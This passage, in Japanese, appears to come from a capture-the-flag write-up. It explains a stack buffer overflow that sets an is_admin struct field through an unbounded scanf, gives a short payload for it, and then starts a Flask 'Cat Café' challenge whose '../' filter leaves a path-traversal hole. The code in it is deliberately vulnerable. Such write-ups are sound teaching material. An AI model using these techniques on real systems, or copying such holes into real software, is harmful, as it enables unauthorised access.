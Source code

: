 ```c
  } else {
    puts("[-] Authentication failed.");
    return 1;
  }
}
...
```

### 解法
以下の`get_auth`関数の`scanf`関数の部分で、入力制限がされていないので、BOFが起きる。

```c
auth_t get_auth(void) {
  auth_t user = { .is_admin = 0 };
  printf("Name: ");
  scanf("%s", user.name);
  return user;
}
```

構造体はメモリ上で見れば、ただ並んでいるデータなので、
0x100分のバッファのすぐ隣は、`is_admin`である。
0x100文字分のバッファを埋めて`is_admin = 1`にする。
```c
typedef struct {
  char name[0x100];
  int is_admin;
} auth_t;
```

したがって、以下のようなペイロードを送ればいい。
```python
...
pld = b"A"*0x100 + b"1"
io.sendlineafter("Name: ", pld)
...
```

## [web 95] Cat Café
> どの猫が一番好きですか。  
> authored by ptr-yudai  

### 問題概要
単純なFlaskのWebアプリで、`/img?f=<なにか>`のようにファイルのパスを指定できる。
```python
import flask
import os

app = flask.Flask(__name__)

@app.route('/')
def index():
    return flask.render_template('index.html')

@app.route('/img')
def serve_image():
    filename = flask.request.args.get("f", "").replace("../", "")
    path = f'images/{filename}'
    if not os.path.isfile(path):
        return flask.abort(404)
    return flask.send_file(path)

if __name__ == '__main__':
    app.run()
```

[^1]: 読み方：すしふぁーすと